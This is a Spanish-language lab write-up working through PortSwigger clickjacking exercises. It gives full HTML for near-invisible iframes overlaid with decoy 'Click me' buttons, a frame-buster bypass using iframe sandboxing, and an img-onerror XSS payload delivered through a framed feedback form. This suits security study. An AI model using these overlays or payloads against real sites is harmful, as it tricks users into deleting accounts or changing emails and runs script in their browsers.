# Click jacking burpsuite laboratories

## Lab: Basic clickjacking with CSRF token protection

This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: wiener:peter

- delete account protected by csrf
- user will click on elements that display the word "click"
- wiener:peter
- craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

Bien vemos una web en la que nos podemos autenticar. Nos autenticamos y vemos un botón de delete.



1. ok, pues bien ahora lo que vamos a hacer es poner esta web en un iframe, con zindex2 y opacity0.1 . Con esto haremos que sea casi invisible.

2. Una vez hagamos esto haremos un botón , este botón como nos dice el enunciado debe de poner click. Este botón lo debemos de superponer encima del botón delete account mediante css.




Vemos como se ve y está así.


Es practicamente la misma web. Voy a hacer pruebas porque creo que debería de ser también responsive o dejarlo fijo.

Voy a copiar el botón css



A ver que tal así




Pues nada, vamos a ver de esta forma, poniendo en absolute el iframe...
Yo a veces no entiendo si es que no tienen capturada todas las opciones.. algo falla o soy yo...



Incluso poniendo en un button y un div... nada.

```html
<style>
iframe{
position:absolute;
opacity: 0.000011;
z-index:2;
}
button.button {
    position: absolute;
    width: 500px;
    top: 515px;
    text-align: center !important;
    left: 655px;
    width: 229px;
}
.button2 {
    position: absolute;
    width: 500px;
    top: 515px;
    text-align: center !important;
    left: 655px;
    width: 229px;
}
.button {
     z-index:1;
    -webkit-border-radius: 25px;
    -moz-border-radius: 25px;
    border-radius: 25px;
    -ms-touch-action: manipulation;
    touch-action: manipulation;
    -webkit-user-select: none;
    -moz-user-select: none;
    -ms-user-select: none;
    user-select: none;
    background-color: #159c80;
    color: #fff;
    font-size: 16px;
    font-weight: bold;
    padding: 7px 1em;
    text-align: center;
    text-decoration: none !important;
    white-space: nowrap;
    min-width: 120px;
}
button2 {
     z-index:1;
    -webkit-border-radius: 25px;
    -moz-border-radius: 25px;
    border-radius: 25px;
    -ms-touch-action: manipulation;
    touch-action: manipulation;
    -webkit-user-select: none;
    -moz-user-select: none;
    -ms-user-select: none;
    user-select: none;
    background-color: #159c80;
    color: #fff;
    font-size: 16px;
    font-weight: bold;
    padding: 7px 1em;
    text-align: center;
    text-decoration: none !important;
    white-space: nowrap;
    min-width: 120px;
}
</style>
<div class="button2">click</div>
<button class="button">click</button>
<iframe src="https://0aac007f0367b652c01b1081000500d5.web-security-academy.net/my-account" width="1000px" height="700px"/>
```

He visto la solución y están poniendo el iframe de forma relativa, voy a corregirlo a ver... pero vamos...



Parece que así si le gustó



## Lab: Clickjacking with form input data prefilled from a URL parameter

This lab extends the basic clickjacking example in Lab: Basic clickjacking with CSRF token protection. The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.

To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: wiener:peter

Básicamente lo que piden es entiendo poner un iframe encima del formulario para que escriba ahí y aparte poner el botón de update email.

Capturo la web de cambio de mail



/my-account/change-email?email=lalal@lalala.es y la pruebo en la url. Nos dice que no la encuentra

Poniendo /my-account/?email=lallal@lalal.es nos la pone en el formulario... 





```html
<style>
iframe{
position:absolute;
opacity: 0.1;
z-index:2;
}

.button2 {
      position: relative;
    top: 483px;
    left: 28px;
    width: 127px;
    -webkit-border-radius: 25px;
    -moz-border-radius: 25px;
    border-radius: 25px;
    -ms-touch-action: manipulation;
    touch-action: manipulation;
    -webkit-user-select: none;
    -moz-user-select: none;
    -ms-user-select: none;
    user-select: none;
    background-color: #159c80;
    color: #fff;
    font-size: 16px;
    font-weight: bold;
    padding: 7px 1em;
    text-align: center;
    text-decoration: none !important;
    white-space: nowrap;
}
</style>
<div class="button2">Click me</div>
<iframe src="https://0ac800c404e211e4c0607bbd005500d7.web-security-academy.net/my-account/?email=lala@lala.com" width="1000px" height="700px"/>

```

## Lab: Clickjacking with a frame buster script

This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: wiener:peter

Básicamente he hecho lo mismo que en el anterior, es más he copiado el anterior y cambiado en el iframe poniendo `sandbox="allow-forms"`
y cambiando la url por el laboratorio actual



## Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS


This lab contains an XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the print() function.

Aquí lo que tenemos que hacer es rellenar el formulario con lo típico de xss que es el ``
Para ello usamos la siguiente url




⛔️	Dom invader no me ha detectado el xss ⛔️	

```html
https://0af400c30372da68c02857780061001b.web-security-academy.net/feedback/?name=%3Cimg%20src=1%20onerror=print(1)%3E
```
Solo hemos añadido en la variable name ese valor, ¿Qué pasa? Pues que cuando le damos al botón de feedback dice que tienes que rellenar todos los datos , por lo que lo ponemos también en la url.

añadimos lo que he capturado por burpsuite cuando rellené el formulario de prueba con los datos bien.

```html
&email=adfa%40gmail.com&subject=adf&message=adf

https://0af400c30372da68c02857780061001b.web-security-academy.net/feedback/?name=%3Cimg%20src=1%20onerror=print(1)%3E&email=adfa%40gmail.com&subject=adf&message=adf

```

Comprobamos que funciona usándolo yo



Ahora montamos el iframe como siempre añadiendo esta url

```html
<style>
    iframe{
position:absolute;
opacity: 0.1;
z-index:2;
}
.button2 {
      position: relative;
    top: 483px;
    left: 28px;
    width: 127px;
    -webkit-border-radius: 25px;
    -moz-border-radius: 25px;
    border-radius: 25px;
    -ms-touch-action: manipulation;
    touch-action: manipulation;
    -webkit-user-select: none;
    -moz-user-select: none;
    -ms-user-select: none;
    user-select: none;
    background-color: #159c80;
    color: #fff;
    font-size: 16px;
    font-weight: bold;
    padding: 7px 1em;
    text-align: center;
    text-decoration: none !important;
    white-space: nowrap;
}
</style>
<div class="button2">Click me</div>
<iframe src="https://0af400c30372da68c02857780061001b.web-security-academy.net/feedback/?name=%3Cimg%20src=1%20onerror=print(1)%3E&email=adfa%40gmail.com&subject=adf&message=adf" width="1000px" height="700px"/>
```

Adaptamos el botón



He tenido que aumentar el iframe height a 1000px y el top 826px , porque se salía el botón del iframe



## Lab: Multistep clickjacking

This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.

You can log in to the account yourself using the following credentials: wiener:peter

Necesitamos primeramente que haga click en eliminar cuenta y después en confirmar

Dos botones click me first and clickme next

En principio solo voy a colocar las posiciones, peor de forma ideal tendría que desaparecer el botón. Vamos por partes





Montamos el iframe como siempre, pero esta vez dos div para los botones
```html
<!--Modificamos a conveniencia-->
<style>
    iframe{
position:absolute;
opacity: 0.1;
z-index:2;
}
.button1 , .button2{
    position: relative;
    top:  564px;
    left: 18px;
    width: 127px;
    -webkit-border-radius: 25px;
    -moz-border-radius: 25px;
    border-radius: 25px;
    -ms-touch-action: manipulation;
    touch-action: manipulation;
    -webkit-user-select: none;
    -moz-user-select: none;
    -ms-user-select: none;
    user-select: none;
    background-color: #159c80;
    color: #fff;
    font-size: 16px;
    font-weight: bold;
    padding: 7px 1em;
    text-align: center;
    text-decoration: none !important;
    white-space: nowrap;
}

.button2{
    top: 329px;
    left: 168px;
}
</style>
<div class="button1">click me first</div>
<div class="button2">clickme next</div>
<iframe src="https://0ae900900381568dc0f239a300fc0094.web-security-academy.net/my-account" width="1000px" height="700px"/>
```

